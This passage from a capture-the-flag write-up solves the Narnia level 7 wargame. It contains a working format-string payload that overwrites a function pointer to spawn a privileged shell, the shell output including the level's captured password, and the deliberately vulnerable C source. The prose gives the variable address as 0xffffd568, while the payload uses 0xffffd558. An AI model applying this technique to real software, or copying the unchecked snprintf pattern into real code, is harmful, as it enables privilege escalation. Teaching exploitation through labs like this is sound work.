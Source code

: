 (address to local_84) + %PADDINGx

The padding will correspond to the decimal value of the address for hackedfunction so as to overwrite the value of the local_84 with the appropriate address. Note that the program will convert this decimal value into hexadecimal, and the hackedfunction will therefore be executed.

From executing the binary, we saw that the hacked address is located at 0x8048724. Converting this hexadecimal value to decimal, we see that it is equivalent to 134514468. Furthermore, the binary printed out the value for local_84 at 0xffffd568. Therefore, a string comprised of the address to this variable in little endian format (as this binary is in little endian) followed by a padding of 134514468 will result in the execution of hackedfunction\:

{% highlight bash %}
narnia7@narnia\:/narnia$ ./narnia7 $(python -c "print '\\x58\\xd5\\xff\\xff'+'%134514468x%n'")                                                                                    
goodfunction() = 0x80486ff  
hackedfunction() = 0x8048724  
  
before \: ptrf() = 0x80486ff (0xffffd558)  
I guess you want to come to the hackedfunction...  
Way to go!!!!$ whoami  
narnia8

$ cat /etc/narnia_pass/narnia8  
mohthuphog
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
#include <stdlib.h>  
#include <unistd.h>  
  
int goodfunction()\;  
int hackedfunction()\;  
  
int vuln(const char *format){       char buffer[128]\;       int (*ptrf)()\;       memset(buffer, 0, sizeof(buffer))\;       printf("goodfunction() = %p\\n", goodfunction)\;       printf("hackedfunction() = %p\\n\\n", hackedfunction)\;  
  
       ptrf = goodfunction\;       printf("before \: ptrf() = %p (%p)\\n", ptrf, &ptrf)\;       printf("I guess you want to come to the hackedfunction...\\n")\;  
       sleep(2)\;  
       ptrf = goodfunction\;       snprintf(buffer, sizeof buffer, format)\;       return ptrf()\;  
}int main(int argc, char **argv){       if (argc <= 1){               fprintf(stderr, "Usage\: %s <buffer>\\n", argv[0])\;               exit(-1)\;  
       }       exit(vuln(argv[1]))\;  
}  
  
int goodfunction(){       printf("Welcome to the goodfunction, but i said the Hackedfunction..\\n")\;  
       fflush(stdout)\;       return 0\;  
}  
  
int hackedfunction(){       printf("Way to go!!!!")\;  
           fflush(stdout)\;  
       setreuid(geteuid(),geteuid())\;  
       system("/bin/sh")\;       return 0\;  
}
{% endhighlight %}

